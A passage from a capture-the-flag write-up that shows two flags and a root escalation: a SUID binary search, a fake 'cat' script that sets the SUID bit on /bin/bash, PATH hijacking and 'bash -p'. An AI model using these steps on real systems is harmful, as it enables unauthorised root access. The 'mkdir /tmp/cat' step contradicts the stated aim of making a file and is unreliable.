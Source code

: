 And I got the second flag from the home directory of the user `ashketchum`.So after getting the second flag, now it's time for privilege escalation.

### Flag 2 :
```console
pallet_city{YouMightBeAshNowButAreYouWorthyEnoughOfMewtwo?}
```
---
### Third Flag :

I tried 
```console
sudo -l
```
but there was no success.

So, I used find command as under:-

```console
find / -perm -u=s -type f 2>/dev/null
```

and I got `one binary file` in the `/var/log` path.

### Path Hijacking vuln :

1) Make a new file called cat in the tmp directory.
```console
mkdir /tmp/cat
```
Contents of `/tmp/cat` file is as under :
```console
chmod +s /bin/bash
```

2) And make it executable file with following command :
```console
chmod +x /tmp/cat
```
3) To hijack the path variable we need to export the tmp directory path as 
```console
export PATH=/tmp:$PATH
```
4) After doing that navigate to `/var/log` and just `execute the binary` thereafter and after running the binary type this command 
```console
/bin/bash -p
```  
to get the root user.

### Flag 3 :
```console
pallet_city{MeetMewTwoatCeruleanCave}
```

---
### References For : 
